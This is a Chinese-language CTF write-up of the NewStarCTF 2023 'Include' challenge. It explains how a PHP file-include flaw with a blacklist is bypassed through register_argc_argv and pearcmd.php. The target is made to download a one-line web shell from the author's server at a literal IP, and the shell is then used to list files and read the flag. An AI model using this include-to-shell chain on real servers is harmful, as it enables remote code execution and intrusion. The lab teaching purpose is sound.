







01WP · 2026.11.11
[NewStarCTF 2023 公开赛道]Include 🍐
NewStarCTF 2023 公开赛道 · include 后缀拼接 + 严格黑名单，靠 phpinfo 拿到 register_argc_argv，再用 pearcmd.php 让靶机下载木马。
php
<?php
error_reporting(0);
if(isset($_GET['file'])) {
$file = $_GET['file'];
if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
die('hacker!');
}
include($file.".php");
# Something in phpinfo.php!
}
else {
highlight_file(__FILE__);
}
?>源码审计：
存在黑名单，禁了flag|log|session|filter|input|data。
include($file.".php") 有后缀拼接。
注释提示 phpinfo.php ，先拿配置。
传?file=phpinfo，查看配置:
老规矩，先搜flag，提示检查register_argc_argv。


- 什么是
register_argc_argv: 在平时，PHP 是运行在 Web 服务器上的，用来接收网址里的参数（比如?file=xxx）。而argv原本是Linux终端里接收命令行参数的。当这个配置设为On时，意味着在网址里用+或者&拼出来的内容，会被 PHP 识别成类似终端里的命令参数。
- pear：
PEAR是 PHP 的一个包管理器（类似于 Python 的 pip）。pearcmd.php是它的命令行入口文件，有install功能，从网上下载指定的文件，保存到本地。 比如执行pear install -R /tmp http://ip/shell.php，表示从远程 URL 下载文件，并保存到本地/tmp目录下，从而解决“没有上传点”的问题！
这个题目没有上传点，只有一个文件包含漏洞，在phpinfo里查一下也可知远程包含不可用，本题提示已经很明显了，用pear自行上网下载，靶机肯定是不认识我们的个人电脑的（没有公网IP），这个时候就需要VPS了，我平时一般用的阿里云的VPS+Xshell（XFTP）。
bash
echo '<?php system($_GET[cmd]); ?>' > evil.php #构造一句话木马
python3 -m http.server 80 #把当前的文件夹变成一个下载网站。端口默认是 80。只要有靶机来访问这个 IP，Python 就会把对应的文件发过去。
用Bp重发访问（防止浏览器地址栏对+等特殊字符进行处理）：
text
/?file=pearcmd&+install+-R+/tmp+http://47.93.44.15/evil.php
GET /evil.php 带 200，就说明我们的目标靶机成功拿到了木马

当我们在pear里面用
install命令时，它以为要下载的是正规的软件安装包（后缀通常是.tgz的压缩包）。所以像evil.php这样的文件传过来，他准备解压就会报错，我们就利用它的报错信息去获得下载文件的绝对地址（"/tmp/tmp/pear/download/evil.php"）
访问：
text
/?file=/tmp/tmp/pear/download/evil&cmd=ls /
访问：
text
/?file=/tmp/tmp/pear/download/evil&cmd=cat /fla*